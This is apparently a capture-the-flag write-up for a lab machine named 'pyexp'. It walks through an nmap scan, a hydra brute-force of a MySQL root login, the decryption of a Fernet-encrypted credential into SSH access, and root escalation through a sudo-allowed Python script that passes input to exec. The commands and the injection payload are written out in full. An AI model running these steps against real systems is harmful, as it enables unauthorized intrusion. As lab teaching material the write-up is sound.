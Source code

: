 # ENUMERATION

Lets start with nmap
```
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 3021
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsTransactions, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, ODBCClient, ConnectWithDatabase, FoundRows, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: >o6^UpV;ccEo~MGXg|[1
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Looking at the results, we have only port 1337, which was running *ssh* and port 3306 running MySQL. It was a quite bit strange as box didnt have any webserver running.

## PORT 3306
Lets start enumerating MySQL service. We can connect to public exposed mysql port using `mysql -h <ip> -u <user> -p`. As we dont have any credentials to work with, first thing we could try some combinations of common usernames and passwords, but none of the default
credentials worked. Next thing we can do is brute-forcing.

We can brute-force the service using hydra. We began with brute-forcing into the port with the username 'root' and 'rockyou.txt' as wordlist.
```bash
└──╼ $hydra -l root -P rockyou.txt <Target-IP> mysql
..[snip]...
[3306][mysql] host: 192.168.1.88   login: root   password: prettywoman
```
Now we have mysql credentials which we can use to login
```mysql
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
```
In the `data` database, we have a table named `fernet`. Dumping the data of the table,
```
MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.398 sec)
```
The table contained a column named `cred` and `key`. Looking at the output, it seems to be encrypted. Also noticing the name of the table *Fernet*, it is a encryption method.
Googling methods to decrypt the data, we found a [site](https://asecuritysite.com/encryption/ferdecode). Using the Key and Cred, we got our decrypted data
```
lucy:wJ9`"Lemdv9[FEw-
```
The decrypted data seems like ssh credentials.

## Shell as Lucy
Using the credentials, we were in
```
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
Checking for user's privileges
```
Matching Defaults entries for lucy on pyexp:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
  (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```
The user *Lucy* was allowed to run the python script `/opt/exp.py` as root. As the file was owned by root and only readable by us, we can't make any changes to it.
Checking the content of file,
```python
uinput = raw_input('how are you?')                                                                                                                                       
exec(uinput)
```
The script was simple, it was taking user input and passing it directly to `exec` function.
> Exec function can dynamically execute code of python programs. The code can be passed in as string or object code to this function

We can run commands using this `exec` function, we can use it to give a root shell
```
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py                                                                                                                          
how are you?import os;os.system("/bin/bash")                                                                                                                             
root@pyexp:/home/lucy# 
```
ROOT!!!
  
  
  
  
